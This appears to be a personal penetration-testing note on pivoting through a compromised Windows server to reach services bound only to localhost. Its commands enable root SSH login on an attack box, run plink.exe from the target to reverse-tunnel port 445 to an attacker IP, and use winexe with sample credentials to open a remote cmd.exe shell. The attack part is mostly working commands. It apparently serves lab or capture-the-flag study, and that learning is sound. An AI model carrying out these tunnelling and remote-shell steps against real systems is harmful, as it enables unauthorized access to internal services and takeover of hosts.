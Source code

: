 -- -
Writing this for situations where you want to attack services on ports that are only available to local host. So:
1. You get a foothold on a server
2. You [[Dark Arts/Privesc/Windows/Enumeration/Network#^cc03c5|Network Enum]] and find ports open only to localhost
So from here you will need to forward your traffic through the server to get access to those ports. 
##### Setup SSH on target servera
You can skip this step if SSH is setup on the server. This is for most situations where the windows server does not have SSH up. 
1. [Download Plink](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)
2. [[Windows|File Transfer]] plink.exe to target server. 
3. Config SSH on attackbox:
```bash
sudo vim /etc/ssh/sshd_config

# look for line:
# PermitRootLogin prohibit-password

# uncomment and change to:
PermiRootLogin yes

# then save

# Check ssh status
sudo systemctl status ssh
sudo service ssh status

# start if not enabled
sudo systemctl start ssh
sudo service ssh start

# if it is enabled/started previously, restart it
sudo systemctl restart ssh
sudo service ssh restart
```
4. Setup port forward on target:
```powershell
# I still don't have my mind completely wrapped around this, but I believe it port forwards to internally avaialble port and connects back to attack box via ssh. 

# for the credentials, use the credentials of your account on the attackbox
# -R: Port to forward to, i.e. the port open only to localhost you want to access
# in this example, we are forwarding traffic from 445 externally to 445 open internally. 
plink.exe -l <username> -pw <password> -R <port>:127.0.0.1:<port> <attack ip>
plink.exe -l root -pw toor -R 445:127.0.0.1:445 10.10.14.5
plink.exe -l n0ctxs -pw kali -R 445:127.0.0.1:445 10.10.14.5
```
5. Use `winexe` to run linux commands via windows.
```bash
# Try to get shell with creds
# on shell gotten through plink.exe:
winexe -U <username>%<password> //127.0.0.1 "cmd.exe"
winexe -U Administrator%Welcome1! //127.0.0.1 "cmd.exe"

# note: you may need to try it multiple times before it works. 
```